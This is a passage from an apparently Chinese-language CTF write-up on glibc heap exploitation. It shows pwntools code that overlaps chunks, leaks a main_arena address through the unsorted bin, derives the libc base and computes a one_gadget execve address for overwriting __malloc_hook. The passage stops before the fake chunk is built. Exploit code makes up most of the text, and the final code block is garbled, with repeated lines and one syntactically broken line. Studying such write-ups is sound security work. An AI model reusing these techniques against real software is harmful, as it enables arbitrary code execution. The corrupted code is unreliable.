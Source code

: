    ![image-20240711161459967](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217726.png)

   * 两次申请，将chunk4申请回原来的chunk2位置，再利用chunk3修改回chunk4的size字段（便于后面继续分配chunk）：

   ```python
   #第二次申请chunk4（2）
   add(0x10,b'f')    #1
   add(0x10,b'g')    #2 与4一起指向small chunk
   #将chunk4的size字段改回来
   payload = p64(0)*3 + p64(0x91)
   fill(3,payload)
   ```

   ![image-20240711161804445](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111618582.png)

   * 此时直接释放chunk4（或者chunk2）由于与top chunk相邻，会被直接回收，所以再申请一个chunk将其隔开，然后再释放：

   ```python
   #防止chunk4释放后，进入top chunk
   add(0x10,b'h')  #5 
   free(4)
   ```

   * 此时chunk2（chunk4）中会存在**main_arena**中的unsorted地址：

   ![image-20240711170418963](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217716.png)

   * 正常情况下（此题没有UAF）再free掉chunk后是不能再访问的，但是前面构造的double free让我们可以利用chnk2和chunk4访问同一个chunk，前面用4释放了所以现在用chunk2来输出其中的内容（chunk2和chunk4指向同一个chunk）：

   ```python
   dump(2)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   ##__malloc_hook只与main_arena地址相差0x10
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   #获得main_arena偏移后计算libc基地址
   libc_base = addr-(main_arena_offset+0x58)
   success("libc_addr==>"+hex(libc_base))
   
   malloc_hook = libc.symbols["__malloc_hook"]+libc_base
   #用one_gadget查出execve的偏移
   malloc_hook = libc.symbols["__malloc_hook"]+libc_base
   execve_addr  = 0x4526a + libc_base
   success("malloc_hook==>"+hex(malloc_hook))
   success("execve_addr==>"+hex(execve_addr))  = 0x4526a + libc_base
   success("malloc_hook==>"+hex(malloc_hook))
   success("execve_addr==>"+hex(execve_addr))
   ```

   ![image-20240711164108341](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217521.png)

   * 在malloc_hook之前伪造一个chunk，用来覆盖malloc_hook：
